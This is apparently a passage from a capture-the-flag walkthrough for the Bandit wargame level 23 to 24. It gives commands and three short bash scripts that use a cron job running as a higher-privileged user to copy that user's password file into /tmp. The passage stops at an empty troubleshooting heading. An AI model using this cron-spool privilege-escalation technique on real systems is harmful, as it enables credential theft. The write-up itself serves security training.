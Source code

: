 ## Command Summary
```bash
# Reconnaissance
ls -la /etc/cron.d/
cat /etc/cron.d/cronjob_bandit24
cat /usr/bin/cronjob_bandit24.sh

# Script creation and setup
mkdir /tmp/jerome.dir
cd /tmp/jerome.dir
nano jerome.sh
# Script content: #!/bin/bash
#                cat /etc/bandit_pass/bandit24 > /tmp/bandit24_password

# Permission setup
chmod +x jerome.sh
chown bandit23:bandit23 jerome.sh

# Deployment
cp jerome.sh /var/spool/bandit24/foo/

# Password retrieval (after waiting for cron execution)
cat /tmp/bandit24_password
```

## Alternative Script Approaches

### Method 1: Direct Password Echo
```bash
#!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/password_output
```

### Method 2: Multiple Output Locations
```bash
#!/bin/bash
PASSWORD=$(cat /etc/bandit_pass/bandit24)
echo $PASSWORD > /tmp/bandit24_pass
echo $PASSWORD > /tmp/level24_password
```

### Method 3: Timestamped Output
```bash
#!/bin/bash
TIMESTAMP=$(date +%s)
cat /etc/bandit_pass/bandit24 > /tmp/bandit24_$TIMESTAMP
```

## Troubleshooting Common Issues
